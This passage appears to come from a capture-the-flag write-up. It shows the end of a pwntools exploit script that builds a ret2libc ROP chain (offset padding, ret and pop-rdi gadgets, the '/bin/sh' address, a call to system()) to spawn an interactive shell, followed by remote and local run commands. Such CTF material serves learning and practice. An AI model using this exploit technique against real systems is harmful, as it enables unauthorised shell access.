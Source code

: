 ```python
    # Instantiating variables to find dynamically-loaded libc addresses
    system = libc.symbols.system
    bin_sh = next(libc.search(b'/bin/sh\x00'))
    success(f'{hex(system)=}')
    success(f'{hex(bin_sh)=}')

    prompt = r.recvuntil(b'\n> ')

    # Payload again because we are being asked how we want to divert flow of execution in another prompt
    payload = b''.join([                        # Use join() to join all elements in a list into one string
    b'A'*offset,
    p64(ret),                                   # Stack-alignment issues requires a ret gadget here
    p64(pop_rdi),                               # ROP Gadget to pop '/bin/sh' into the RDI register
    p64(bin_sh),                                
    p64(ret),                                   # Stack-alignment issues requires a ret gadget here
    p64(system),                                # Call system() from libc
    ])

    # A's at the top, B's for injection test, and C's for padding out the original length of data to send out
    payload += b'C'*(length -len(payload))          

    r.send(payload)

    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

#### Run:

<mark style="color:red;">**Remote Exploitation**</mark>**:** `python3 solve.py REMOTE`

<mark style="color:red;">**Local Exploitation**</mark>**:** `python3 solve.py LOCAL`

#### Result
